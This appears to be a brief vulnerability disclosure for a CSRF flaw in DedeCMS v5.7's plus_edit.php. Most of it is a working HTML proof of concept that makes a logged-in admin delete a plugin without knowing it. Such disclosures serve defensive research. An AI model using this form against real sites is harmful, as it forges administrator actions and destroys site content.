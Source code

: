 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /dede/plus_edit.php
![1](https://github.com/777erp/cms/assets/113673221/a4c270ef-7ef2-408c-b797-292145700f84)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/plus_edit.php" method="POST">
      <input type="hidden" name="job" value="yes" />
      <input type="hidden" name="dopost" value="delete" />
      <input type="hidden" name="aid" value="10" />
      <input type="hidden" name="imageField1&#46;x" value="16" />
      <input type="hidden" name="imageField1&#46;y" value="13" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

![2](https://github.com/777erp/cms/assets/113673221/afa97d0c-8c17-4bec-b15d-222f25e377e7)


Successed

![3](https://github.com/777erp/cms/assets/113673221/cc672368-a77b-4d7d-8a5a-b79237ef883e)
